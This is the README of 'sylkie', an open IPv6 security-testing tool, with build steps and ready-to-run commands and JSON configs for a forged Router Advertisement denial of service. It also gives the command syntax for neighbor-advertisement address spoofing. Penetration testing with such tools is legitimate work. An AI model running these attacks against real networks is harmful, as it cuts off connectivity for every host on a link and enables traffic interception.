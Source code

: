 # `sylkie`

A command line tool and library for testing networks for common address
spoofing security vulnerabilities in IPv6 networks using the Neighbor
Discovery Protocol.

## Getting Started

### Dependencies

 - [libseccomp](https://github.com/seccomp/libseccomp) (Optional, but highly recommended)
 - [json-c](https://github.com/json-c/json-c) (Optional, but recommended)

See [The Wiki](https://github.com/dlrobertson/sylkie/wiki#building) for more details.

### Build

Get the code and compile it!

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

## Basic usage

The following describes the basic usage of `sylkie`. Run `sylkie -h` or
`sylkie <subcommand> -h` for more details.

### DoS (Router Advert)

The basic usage of the `sylkie` router advert command is listed below.
This command will send a Router Advertisement message to the given ip
or the all nodes multicast addres causing the targeted nodes to remove
`<router-ip>/<prefix>` from their list of default routes.

```
sylkie ra -interface <interface> \
    --target-mac <mac of router> \
    --router-ip <ip of router> \
    --prefix <router prefix> \
    --timeout <time between adverts> \
    --repeat <number of times to send the request>
```

#### Router Advert Examples

A basic example.

```
sylkie ra -i ens3 \
    --target-mac 52:54:00:e3:f4:06 \
    --router-ip fe80::b95b:ee1:cafe:9720 \
    --prefix 64 \
    --repeat -1 \
    --timeout 10
```

This would send a "forged" Router Advertisement to the link local scope
all-nodes address `ff02::1` causing all of the nodes to remove
`fe80::b95b:ee1:cafe:9720/64` (link-layer address `52:54:00:e3:f4:06`)
from their list of default routes.

That is quite a bit of info. To make life easier `sylkie` also accepts
json, where the subcommand (`ra`, `na`) is a key whos value is an array
of objects with the keys and values being the corresponding option
and value. To run the command, pass the path to the json file as the
argument to the `-j` option.

To run the above command from json, first create a file with the following.

```
{
    "ra": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

After creating the file, start sending adverts with the following.

```
sylkie -j /path/to/json
```

This becomes especially useful if there is a set of advertisements
that need to be configured and sent. For example, the following json
config would send two router advertisements on the configured
intervals.

```
{
    "ra": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        },
        {
            "interface": "ens3",
            "target-mac": "52:54:00:c2:a7:7c",
            "router-ip": "fe80::cbed:6822:cd23:bbdb",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

#### How it works

The router advert (`ra`) command attempts to DoS a network by sending
"forged" Router Advertisement messages to either a targeted address
(if one is provided) or the link local scope all-nodes address `ff02::1`.
The "forged" Router Advertisement contains [Prefix Information](https://tools.ietf.org/html/rfc4861#section-4.6.2)
with the lifetimes set to 0. The message also contains the
[Source Link-Layer Address](https://tools.ietf.org/html/rfc4861#section-4.6.1).
This should cause the targeted address or all link local nodes to
remove the targetted router from the list of default routes.

### Address spoofing (Neighbor Advert)

```
sylkie na -i <interface> \
    --dst-mac <dest hw addr> \
    --src-ip <source ip> \
    --dst-ip <dest ip address> \
    --target-ip <target ip address> \
    --target-mac <target mac address> \
    --timeout <time betweeen adverts> \
    --repeat <number of times to send the request>
```

